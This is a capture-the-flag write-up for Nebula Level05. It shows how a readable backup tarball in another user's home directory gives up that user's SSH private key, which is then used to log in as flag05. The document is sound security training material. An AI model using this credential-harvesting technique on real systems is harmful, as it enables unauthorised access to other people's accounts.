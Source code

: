 # Level05

Check the **flag05** home directory. You are looking for weak directory permissions
To do this level, log in as the **level05** account with the password
**level05**. Files for this level can be found in /home/flag05.

## Source code

There is no source code available for this level.

## Solution

Let's list the contents of the /home/flag05 directory using `ls -lah /home/flag05`:

```
level05@nebula:~$ ls -lah /home/flag05
total 9.0K
drwxr-x--- 1 flag05 level05   80 Sep 13 14:42 .
drwxr-xr-x 1 root   root     200 Aug 27  2012 ..
drwxr-xr-x 2 flag05 flag05    42 Nov 20  2011 .backup
-rw------- 1 flag05 flag05    13 Sep 13 14:42 .bash_history
-rw-r--r-- 1 flag05 flag05   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K May 18  2011 .bashrc
drwx------ 2 flag05 flag05    60 Sep 13 14:41 .cache
-rw-r--r-- 1 flag05 flag05   675 May 18  2011 .profile
drwx------ 2 flag05 flag05    70 Nov 20  2011 .ssh

```

We see the .backup directory which we have read and execution permissions allowing us to see it's contents using the `ls` command once again:

```
level05@nebula:~$ ls -lah /home/flag05/.backup/
total 2.0K
drwxr-xr-x 2 flag05 flag05    42 Nov 20  2011 .
drwxr-x--- 1 flag05 level05   80 Sep 13 14:42 ..
-rw-rw-r-- 1 flag05 flag05  1.8K Nov 20  2011 backup-19072011.tgz
```

We have a gziped tar file named `backup-19072011.tgz`, we can check it's contents using the `tar` command with the `-t` flag

```
level05@nebula:~$ tar -tf /home/flag05/.backup/backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

So that's promising, the backup is of the .ssh directory. It contains the `authorized_keys` file and a pair of public and private rsa keys. Let's copy the tar to our home directory and unpack it:

```bash
cp /home/flag05/.backup/backup-19072011.tgz .
tar -xzf backup-19072011.tgz
```

Inspecting the contents of the `.ssh/authorized_keys` and the `id_rsa.pub` key we see that the rsa public key is the same, meaning that the flag05 account accepts ssh login using the matching private key, which is contained in the ~/.ssh/id_rsa file. So let's test this by trying to ssh into flag05 using the private key for authentication:

```bash
ssh flag05@localhost -i .ssh/id_rsa
```

And it works! We're now logged in as flag05 account and we can run the getflag command to finish the challenge.
